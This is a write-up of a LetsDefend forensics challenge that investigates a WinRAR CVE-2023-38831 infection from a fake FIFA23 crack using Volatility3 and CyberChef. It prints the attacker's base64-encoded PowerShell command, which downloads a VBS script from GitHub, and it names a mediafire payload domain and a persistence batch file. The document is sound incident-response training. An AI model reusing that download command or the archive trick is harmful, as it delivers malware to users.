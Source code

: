 # [LetsDefend - WinRAR 0-Day](https://app.letsdefend.io/challenge/winrar-0-day)
Created: 03/04/2024 9:09
Last Updated: 03/04/2024 10:48
* * *
<div align=center>

**WinRAR 0-Day**
![0daa668d9de0fe509e74ee432dcb56d4.png](/resources/0daa668d9de0fe509e74ee432dcb56d4.png)
</div>
It appears that there are numerous cracked versions of popular games available. However, it seems we may have downloaded the wrong one, as it exhibits suspicious behavior. We require your assistance in investigating this matter.

Tools Required:
1- Volatility3
2- Cyberchef

Memory dump: `/root/Desktop/Winny.vmem`

This challenge prepared by [@MMOX](https://www.linkedin.com/in/0xMM0X)
* * *
Read about this [vulnerability](https://blog.securelayer7.net/analysis-of-cve-2023-38831-zero-day-vulnerability-in-winrar/) first to gain an insight about this 0-day and here is [POC](https://medium.com/@mohammedthoufeeq_25137/winrar-rce-cve-2023-38831-zeroday-latest-4593ebcd6b33) of this vulnerability

## Start Investigation
> What is the suspected process?

![d82ab32c2f8d6d2ee3907347b83e3252.png](/resources/d82ab32c2f8d6d2ee3907347b83e3252.png)
We got vmem file as an evidence file and volatility 3 to analyze this memory file
![09ef290ea8c7c033669c8ca073e0f9c4.png](/resources/09ef290ea8c7c033669c8ca073e0f9c4.png)
used plugin `windows.pstree` to show process tree, there are 2 WinRAR.exe under explorer.exe which matchs name and scenario of this challenge.
```
WinRAR.exe
```

> We suspect that the crack had another name. Can you find the old name of that crack?

![0d0ddecbe55f92369ebc6500246934c6.png](/resources/0d0ddecbe55f92369ebc6500246934c6.png)
used `windows.cmdline` plugin, you can see that winrar was used to open suspicious rar file.
```
b6wzzawS.rar
```

> What is the new crack filename?

![aabee5c11b91d7945920d18a714b2528.png](/resources/aabee5c11b91d7945920d18a714b2528.png)
I used filescan plugin piped into text file then filter with Downloads folder, you can see that there is 1 suspicious rar file there and its FIFA23CRACK which make sense since Fifa23 is a football game.
```
FIFA23CRACK.rar
```

> What is the command that executed the remote request?

We got an offset/virtual address of the suspicious cracked game archive so we can use dumpfile plugin to dump this file out
![a156d2f8cebefb5da4d43a72e6842c9f.png](/resources/a156d2f8cebefb5da4d43a72e6842c9f.png)
![92d7c0d371685f101649db9fe379c624.png](/resources/92d7c0d371685f101649db9fe379c624.png)
I used strings to see how many files had been compressed into this file and there are 2 files
![a7dceaad688df5cd2903c3f5e183ccdb.png](/resources/a7dceaad688df5cd2903c3f5e183ccdb.png)
Then I used 7z to extract those file out
![4294fd48bd4c6bdc54097dd1b2aa08f4.png](/resources/4294fd48bd4c6bdc54097dd1b2aa08f4.png)
First file is PNG file in disguise which also make sense because in this CVE, user needed to click ReadMe.txt first then malicious command inside cmd file will be executed
![90d42cb211ae8617e58f3754ad5bbcbe.png](/resources/90d42cb211ae8617e58f3754ad5bbcbe.png)
Here is the malicious powershell command 
```
powershell.exe -EncodedCommand SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0Vsc2ZhN0VsNGEyeS9TZWNyZXRXZWFwL21haW4vU2Q0cUF4MjEudmJzJyAtT3V0RmlsZSAiJGVudjpURU1QXFNkNHFBeDIxLnZicyI=
```

> The external link has a username. What is it?

![e4f5480e544a040200fa7072aff627c5.png](/resources/e4f5480e544a040200fa7072aff627c5.png)
Decode base64 strings, you can see that this is a command to download vbs script from github
```
Elsfa7El4a2y
```

> It seems the creator of that ransomware uploaded a file to the cloud. Can you find which domain it was downloaded from?

[Here](https://bazaar.abuse.ch/sample/0352598565fbafe39866f3c9b5964b613fd259ea12a8fe46410b5d119db97aba) is the link to sample, Download it and analyze it using any text editor.
![7a8c1b4cceb5c9d94efc3a99b46451ce.png](/resources/7a8c1b4cceb5c9d94efc3a99b46451ce.png)
You can see that this script used HTTP request to somewhere, We need to decode that weird suspiciously long string and we also need to know what OwOwO function does
![547367ba6a95b49c8a3a125acfe8ff66.png](/resources/547367ba6a95b49c8a3a125acfe8ff66.png)
![d54973dca73045a475b74e334af55285.png](/resources/d54973dca73045a475b74e334af55285.png)
so its to make HEX to ASCII
![d7f53b9f2d7e5fae3c1af02ba3facead.png](/resources/d7f53b9f2d7e5fae3c1af02ba3facead.png)
come back to replace, we need to know which strings to be replace and what is the new replacing string is 
![618d7df2f05b8788c8f857d5c42f206e.png](/resources/618d7df2f05b8788c8f857d5c42f206e.png)
Use Find / Replace recipe on Cyberchef, we got Hex
![7c2f7ee1ac6012a86d52b1cf82956e29.png](/resources/7c2f7ee1ac6012a86d52b1cf82956e29.png)
Then use From Hex, We finally got an url
```
download850.mediafire.com
```

> The attacker left the file behind in someplace to come back later for the device. What is the full location of this file?

![f2030d812337abbe6e28a583fdcaa19b.png](/resources/f2030d812337abbe6e28a583fdcaa19b.png)
You can see that there is .savetofile function here with Reverse string and replace string, that string also look like base64 too
![15ebf5eb7a19e70eed02fe6098f1a885.png](/resources/15ebf5eb7a19e70eed02fe6098f1a885.png)
We can use Find / Replace with From Base64 to decode, the result is the file that was created to stay persistence. 
```
c:\windows\temp\B4cKL4T3R.bat
```

* * *
## Summary

Culprit of this incident is FIFA23CRACK.rar which was designed to exploit CVE-2023-38831 vulnerability by baiting user to click ReadMe.txt inside WinRAR program and then it will executed malicious powershell command from other file inside rar archive file which lead to download ransomware to a system.
<div align=center>

![c37d5ed8681fdc882caf844554587ee3.png](/resources/c37d5ed8681fdc882caf844554587ee3.png)
</div>

* * *
